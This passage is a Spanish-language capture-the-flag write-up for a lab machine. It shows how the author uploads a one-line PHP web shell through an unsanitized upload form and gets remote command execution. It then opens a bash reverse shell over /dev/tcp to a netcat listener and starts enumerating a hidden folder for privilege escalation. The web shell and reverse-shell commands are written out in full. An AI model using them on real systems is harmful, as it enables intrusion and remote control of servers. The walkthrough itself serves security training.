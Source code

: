 ## Explotacion de Vulnerabilidades
### Vector de Ataque
Como atacante intentare vulnerar este archivo si es que no esta sanitizada la carga de archivo, Subire uno con contenido malicioso que me permita realizar una llamada la cual bajo un parametro que yo defina me permita ejecutar un comando a nivel de sistema:
Nuestro archivo malicioso: **( cmd.php )**
**Nota** En caso de que no admita este tipo de archivos realizaremos varias variantes hasta que nos permita subirlo.
```php
<?php
  system($_GET["cmd"]);
?>
```

### Ejecucion del Ataque
**Nota** Al intentar subir el archivo malicioso si que nos ha dejado y se ha cargado correctamente en la carpeta: **( /uploads )**
Al ejecutarlo tenemos ejecucion remota de comandos: **RCE**
```bash
# Comandos para explotación
http://hackzones.hl/uploads/cmd.php?cmd=whoami
```

### Intrusion
Una ves ejecutado comando de manera exitosa nos pondremos en escucha en nuestra maquina de atacante:
```bash
nc -nlvp 443
```

Ganamos acceso al **target**
```bash
# Reverse shell o acceso inicial
http://hackzones.hl/uploads/cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Retrocediendo entre directorios tenemos este: **supermegaultrasecretfolder** en la siguiente ruta
```bash
# Comandos clave ejecutados
/var/www/html/supermegaultrasecretfolder
```

**Hallazgos Clave:**
Listando el contenido de este directorio vemos lo siguiente:
```bash
-rw-r--r-- 1 root root  336 Nov 15  2024 secret.sh
```
